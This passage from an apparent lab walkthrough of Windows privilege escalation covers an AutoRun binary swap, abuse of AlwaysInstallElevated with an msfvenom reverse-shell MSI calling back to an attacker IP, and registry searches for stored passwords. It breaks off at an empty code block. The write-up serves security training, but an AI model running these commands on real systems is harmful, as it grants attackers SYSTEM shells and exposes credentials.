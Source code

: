 Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

```bash
C:\gr4n173>copy C:\gr4n173\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!  

`rdesktop 10.10.107.23`

### AlwaysInstallElevated
When `AlwaysInstallElevated` is set for both `HKLM(HKEY\_LOCAL\_MACHINE)` and `HKCU(_HKEY\_CURRENT\_USER_)` in registry for every install program then, program automatically obtains system privileges. And another thing i.e. Windows environment provide a group policy settings which allows a regular user to install a Microsoft Windows Installer Package(MSI) with system privileges.
So from that prospective, here we have to set the both `HKLM`and `HKCU` then we can get the system. For that we have to `query` registry first.
```bash
C:\gr4n173>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\gr4n173>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
Here both are set. Now our task is to install reverseshell as `msi` package for that we can use `msfvenom` and then transfer it to windows machine using `smb` server.
```bash
root@g4n173:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.77.175 LPORT=53 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```
Now, it has been transfered to windows and if we try to run it with a listner on in kali then we get the shell with `SYSTEM privileges`.
```bash
C:\gr4n173>msiexec /quite /qn /i reverse.msi
```

## 4. Passwords
### Registry
We can search for the keys and values that contains word 'password' in registry using 
```bash
C:\gr4n173>reg query HKLM /f password /t REG_SZ	/s
C:\gr4n173>reg query HKCU /f password /t REG_SZ /s
.......
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\DefaultUserConfiguration
    Password    REG_SZ
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp
    Password    REG_SZ
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteAccess\Policy\Pipeline\23
    (Default)    REG_SZ    IAS.ChangePassword
End of search: 258 match(es) found.
```
To query for windows autologin which will display password and username
```bash
```